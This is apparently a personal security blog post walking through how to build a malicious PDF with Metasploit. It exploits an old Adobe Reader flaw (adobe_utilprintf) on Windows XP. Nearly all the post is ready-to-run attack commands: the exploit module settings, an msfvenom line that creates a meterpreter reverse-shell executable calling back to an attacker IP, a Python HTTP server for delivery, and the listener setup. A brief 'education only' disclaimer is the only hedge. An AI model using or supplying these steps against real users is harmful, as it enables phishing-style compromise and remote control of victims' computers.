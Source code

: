 ```yaml
---
title: "Create malicious PDF"
date: "2020-02-10"
layout: single
tags:
- Malicious
categories:
- Blog-post
---
```


Malicious PDF is one of the way to hack users because this document format and Adobe Reader (PDF reader) are used by almost everyone.

In this article, I will show you how to generate our malicious PDF using Metasploit. We gonna use an old exploit for a vulnerable Adobe Reader version.

**This article is for research and education purpose only**. Do with your own risk!

**The exploit is targeting a specific version of Adobe Reader** which is **vulnerable Adobe Reader version** (less than 8.1.2). So, you need to install this version first on your Windows XP target machine as mention in Metasploit module.

## 1. Generate malicious pdf
We gonna use `adobe_utilprintf` vulnerability

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/1.PNG)

    use exploit/windows/fileformat/adobe_utilprintf
    set filename malicious.pdf
    set payload windows/exec
    set cmd malware.exe
    exploit

## 2. Create reverse shell executable
Copy the malicious pdf to a directory that we gonna setup our HTTP server.
And create a reverse shell executable using msvenom.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/2.PNG)

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.83.128 LPORT=1111 -f exe > malware.exe

Note:
Change LHOST with your IP

## 3. Download executable and PDF  in the target machine

You can use this python line to step up local HTTP server.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/3.PNG)

    python -m SimpleHTTPServer

Rename `evil.exe` to `malware.exe` (if you name the executable as evil.exe during generating reverse shell executable using msfvenom)

Download both of the files, and copy `malware.exe` to `System32` folder

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/4.PNG)

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/5.PNG)

## 4. Listen to reverse shell

Listen to reverse shell and wait for the execution of the file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/6.PNG)

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.83.128
    set lport 1111
    run

## 5. We're in 🎉 
After we double click the PDF, the exploit will run. So, our classic exploit is successful!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/7.PNG)

